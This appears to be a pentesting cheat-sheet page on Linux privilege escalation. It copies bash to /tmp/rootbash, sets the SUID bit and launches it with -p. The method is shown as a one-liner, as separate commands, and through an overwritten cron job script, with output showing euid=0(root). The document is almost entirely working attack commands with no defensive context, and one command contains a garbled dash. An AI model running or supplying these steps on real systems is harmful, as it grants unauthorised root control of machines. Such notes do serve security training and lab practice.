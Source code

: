 ```yaml
---
category: Uncategorized
tags: []
---
```

#### 1 liner
```bash - target
cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash && /tmp/rootbash -p
```

#### Multi command
```bash - target
cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash
```

```bash - target
/tmp/rootbash -p
```

#### Script / cronjob
```bash - target
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
```

```bash - target
chmod +x /home/user/overwrite.sh
```

Wait for the cronjob to run (this job in particular runs every minute).

Once the /tmp/rootbash file is created, execute it (with -p to preserve the effective UID) to gain a root shell:

```bash - target
/tmp/rootbash –p
```

```bash - target
id
```

>uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root)